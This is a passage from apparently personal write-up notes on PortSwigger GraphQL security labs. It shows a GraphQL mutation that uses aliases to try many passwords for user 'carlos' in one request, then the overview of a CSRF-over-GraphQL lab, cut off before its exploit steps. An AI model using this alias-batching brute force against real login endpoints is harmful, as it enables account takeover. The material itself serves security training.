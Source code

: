 * In the GraphQL tab in repeater, change the mutation arguments to look like below and include the output of the script within the operation


```
mutation login {
        
bruteforce0:login(input:{password: "123456", username: "carlos"}) {
        token
        success
    }


bruteforce1:login(input:{password: "password", username: "carlos"}) {
        token
        success
    }

    ...
}
```

* In the response, we can see which operation was successful in brute forcing the password, correlate the results with the password used in the request


<br><br>


### Lab: Performing CSRF exploits over GraphQL


Overview:

*  The user management functions for this lab are powered by a GraphQL endpoint. The endpoint accepts requests with a content-type of x-www-form-urlencoded and is therefore vulnerable to cross-site request forgery (CSRF) attacks.

* To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address, then upload it to your exploit server.

* You can log in to your own account using the following credentials: wiener:peter. 


Steps to exploit:

https://portswigger.net/web-security/graphql/lab-graphql-csrf-via-graphql-api

